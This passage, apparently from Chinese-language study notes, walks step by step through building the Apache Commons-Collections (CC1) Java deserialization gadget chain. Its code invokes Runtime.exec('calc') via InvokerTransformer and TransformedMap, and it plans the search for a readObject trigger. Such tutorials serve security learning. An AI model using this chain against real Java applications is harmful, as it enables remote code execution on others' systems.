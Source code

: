               System.out.println("Key: " + key + ", Value: " + value);
          }
      }
      /**
      	从上面这个案例，就可能对MapEntry有印象了，而且其实在遍历的时候，咋们也是可以调用entry.setValue("");的
      	所以咋们的这个该怎么调用就很明显了
      */
      ```

17.   **现在在完善一下调用链，要不然太长了不好理解**

      ```java
      // 原本的调用链
      public static void main(String[] args) throws Exception {
          // 获取一个Runtime对象
          Runtime runtime = Runtime.getRuntime();
      
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
      }
      
      // 新增调用
      public static void main(String[] args) throws Exception {
          Runtime runtime = Runtime.getRuntime();
          
          // 调用链已经不止步于此了，所有得先把他的值存一下，而且也不能直接调用transform传入Runtime了
          InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
          
      	// 创建一个Map对象，用于作为TransformedMap.decorate()方法的参数
          HashMap<Object, Object> hashMap = new HashMap<>();
          // 随便传两个值让其不为空
          hashMap.put("key","value");
          
          // 这里就是为decorate方法中的key和value赋值，然后因为checkSetValue方法内部只用到了value，所有key的值就给null
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap,null,exec);
          
      	/**
      		然后我们就需要去调用那个静态内部类的setValue方法，而且我们现在的decorate属性的对象已经是TransformedMap中的了
      		而且TransformedMap又是那个很长的抽象方法的子类，
      		而且原本的map类中也是有setValue方法，这里就可以理解为那个静态类重写了setValue方法
      		我们使用TransformedMap.decorate方法返回的map对象然后对其遍历是会执行那个静态类中的setValue方法的
      	*/
          for (Map.Entry entry:decorate.entrySet()){
              // 然后这里就要传入Runtime对象，因为执行exec方法需要一个这个方法所属对象
              entry.setValue(runtime);
          }
          
          // 运行完成后，在可以发现是可以谈计算器的
      }
      ```

18.   **到这里，我们就已经完成调用链的一半了，然后我们需要去找的东西就是：要有一个遍历数组的地方，而且他还要调用了setValue方法**

      -   **而且他的setValue方法中的value值要是可控的，而且也要让其对我们的decorate进行遍历**

19.   **然后重新使用老办法，对这setValue去找，这次找已经有一个范围了，然后从这里开始也可以找一下有没有在readObject里面调用setValue方法的，如果没有那说明可能还需要来一层调用**
